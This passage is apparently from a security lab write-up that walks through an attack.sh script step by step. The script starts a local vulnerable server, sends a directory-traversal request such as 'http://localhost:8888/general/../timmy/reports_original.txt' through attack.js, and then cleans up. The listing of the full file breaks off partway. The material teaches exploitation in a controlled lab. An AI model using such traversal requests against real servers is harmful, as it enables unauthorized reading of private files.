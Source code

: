 - Sets `ATTACK_PATH` to the 1st script argument if provided; otherwise uses a default URL.
    
- Prints which path will be used.
    

**Why:** Allows quick re-use and experimentation: run `./attack.sh "URL"` to try different payloads without editing the script.

**Checks / expectations:**

- If you run `./attack.sh` with no args and the default fails (404), call the script with an explicit correct path:  
    `./attack.sh "http://localhost:8888/general/../timmy/reports_original.txt"`

```Shell
node scripts/attack.js "$ATTACK_PATH"
```
*What:** Invokes the attack client (Node script) with the chosen URL/path.

**Why:** `attack.js` is the component that actually issues the HTTP request to the server (and prints the server response/file contents). This is the exploitation step.

**Checks / expectations:**

- Successful run → `attack.js` prints the file contents (or a success message).
    
- Failure → `404 Not Found`, `403`, `connection refused`, or an error printed by Node. Use `server.log` and `ls` to debug.

#### Step 4
```Shell
echo -e "\t[${GREEN}cleaning up${NC}]: killing server (pid $vulnpid)"
kill -9 $vulnpid 2>/dev/null || true
echo -e "\t[${GREEN}done${NC}]"
```
**What:** Prints cleanup message, attempts to kill the background server PID, suppresses error output, and finishes.

**Why:** Ensures the server isn’t left running and frees port 8888 for other runs. The `2>/dev/null || true` makes cleanup quiet and non-fatal if the process is already gone.

**Checks / expectations:**

- After the script ends, `ss -ltnp | grep 8888` should show no process listening.
    
- If server persists, use `ps aux | grep start-server.js` and `kill <pid>`.

## Complete File
`attack.sh` automates the experiment: start the server, wait, run a directory-traversal request (via `attack.js`) against the server with a specified path, then kill the server and print results — repeatable, reproducible, and easy to submit.


```Shell
#!/bin/bash
# These lines help the output print in color!
RED='\033[0;31m'
BLUE='\033[0;34m'
GREEN='\033[0;32m'
NC='\033[0m' # No Color

### Step 1: Start the server
echo -e "\t[${GREEN}start vulnerable server${NC}]: ${BLUE}hftp${NC}"

node scripts/start-server.js > server.log 2>&1 &


vulnpid=$!

### Step 2: Wait for the server to get started

```